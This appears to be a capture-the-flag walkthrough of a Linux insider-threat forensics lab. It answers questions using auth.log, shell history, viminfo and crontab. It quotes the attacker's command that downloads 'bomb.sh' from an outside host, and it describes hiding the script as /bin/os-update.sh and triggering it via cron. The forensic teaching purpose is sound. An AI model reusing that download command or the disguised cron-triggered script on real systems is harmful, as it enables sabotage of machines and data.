









# 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```



> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```


> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```



> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```



> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```



> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```


> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```



> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```


> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```



> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
cat /etc/crontab
```


> **Answer:** `08:00 AM`

---


